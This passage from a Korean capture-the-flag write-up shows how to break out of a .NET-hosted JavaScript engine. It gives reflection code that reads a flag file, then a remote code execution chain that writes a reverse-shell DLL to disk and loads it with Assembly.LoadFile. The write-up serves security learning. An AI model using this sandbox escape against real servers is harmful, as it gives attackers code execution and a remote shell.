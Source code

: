 ```js
  var fileName = tempFilesArr.GetValue(i);
  oneElemArr.SetValue(fileName, 0);
  // the Flag filename contais Flag and some other random values
  if (fileName.includes("Flag")) {
    // read the flag file
    var fileContent = fileReadMethod.Invoke(null, oneElemArr);
    break;
  }
}
fileContent;
```

![Screenshot](/assets/img/2024-06-30-ExploitingaJavaScriptEngineforNET_22.png)

## 원격 코드 실행

RCE에 대해서는 원격에서 작동하지 않아 작동 원인을 알 수 없었지만 로컬에서는 작동했으므로 다른 누군가에게 도움이 될지도 모르니 코드를 공유하겠습니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

RCE의 아이디어는 System.IO.File 클래스의 WriteAllText(String content, String path)를 사용하여 서버에 악성 .dll 파일을 작성하고, System.Reflection.Assembly 클래스의 LoadFile(String path) 함수를 사용하여 해당 파일을 로드하는 것입니다. 여기서 역쉘 dll 파일의 코드를 찾을 수 있습니다. 이를 컴파일한 후 hex로 인코딩하고 바이트를 \x69 형식으로 작성하여 코드 내에서 해당 부분을 대체하십시오.

```js
var objectClass = this.ProcessChat_Helper.GetType().BaseType;
var typesArray = objectClass.Assembly.GetTypes();
var fileTypeMethods = typesArray.GetValue(2008).GetMethods();
var writeFileMethod = fileTypeMethods.GetValue(51);
var writeFileArgs = this.ProcessChat_Helper.GetAvailableLanguages();
writeFileArgs.SetValue("c:\\temp\\z4ki.dll", 0);
writeFileArgs.SetValue("\x7a\x34\x6b\x69", 1); // <--  여기를 편집하세요
writeFileMethod.Invoke(null, writeFileArgs);
var assemblyType = objectClass.Assembly.GetType().BaseType;
var oneElemArr = objectClass.Assembly.GetTypes().GetValue(128).GetMethod("GetCommandLineArgs").Invoke(null, null);
oneElemArr.SetValue("C:\\Temp\\z4ki.dll", 0);
assemblyType.GetMethod("LoadFile").Invoke(null, oneElemArr);
```

## 또 다른 RCE 방법
